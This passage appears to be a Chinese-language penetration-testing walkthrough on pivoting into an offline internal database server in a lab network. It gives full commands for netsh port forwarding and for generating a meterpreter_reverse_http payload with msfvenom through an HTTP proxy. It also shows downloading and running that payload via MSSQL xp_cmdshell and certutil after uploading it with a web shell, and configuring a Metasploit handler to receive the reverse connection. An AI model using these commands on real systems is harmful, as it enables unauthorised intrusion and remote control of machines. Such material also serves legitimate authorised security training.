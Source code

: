     
    
    0.0.0.0：本机上的所有IPV4地址；127.0.0.1：环回地址，仅本地接口IP地址；

  

这一步可直接省略跳过

然后再利用系统自带的netsh命令将这台主机56出网段的HTTP代理8080端口转发至186不出网段的8888端口上，用于后期在MSF监听时设置HTTP代理。

  *   *   *   *   *   *   *   * 

    
    
    添加端口转发netsh interface portproxy add v4tov4 listenaddress=192.168.186.3 listenport=8888 connectaddress=192.168.56.102 connectport=8080  
    删除端口转发netsh interface portproxy delete v4tov4 listenaddress=192.168.186.3 listenport=8888  
    显示所有端口转发netsh interface portproxy show all

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810121128.png)  

用msfvenom命令生成个`meterpreter_reverse_http`载荷文件，需要加上以下几个HTTP代理参数，填入186不出网段内网IP的HTTP代理：http://192.168.186.3:8080

  * `HttpProxyType`：代理类型（HTTP）；

  * `HttpProxyHost`：代理地址（192.168.186.3）；

  * `HttpProxyPort`：代理端口（8080）；

  * 

    
    
    msfvenom -p windows/x64/meterpreter_reverse_http LHOST=192.168.56.101 LPORT=443 HttpProxyType=HTTP HttpProxyHost=192.168.186.3 HttpProxyPort=8080 -f exe > /tmp/stageless.exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810121129.png)  

利用中国菜刀的上传/下载功能将该文件放至192.168.186.3的Web服务器中供192.168.186.4断网数据库服务器下载，执行以下命令将`stageless.exe`下载至断网机磁盘中。

  * 

    
    
    EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://192.168.186.3/stageless.exe C:\ProgramData\stageless.exe'

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810121130.png)  

handler监听模块这里必须也要用`meterpreter_reverse_http`，配置好相关选项后执行监听，然后在中国菜刀中利用xp_cmdshell组件执行`stageless.exe`后即可成功上线。‍

  *   *   *   *   *   *   *   *   *   * 

    
    
    msf5 > use exploit/multi/handlermsf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_httpmsf5 exploit(multi/handler) > set lhost 192.168.56.101msf5 exploit(multi/handler) > set lport 443msf5 exploit(multi/handler) > set httpproxytype HTTPmsf5 exploit(multi/handler) > set httpproxyhost 192.168.186.3msf5 exploit(multi/handler) > set httpproxyport 8080msf5 exploit(multi/handler) > exploit  
    EXEC master..xp_cmdshell 'C:\ProgramData\stageless.exe'
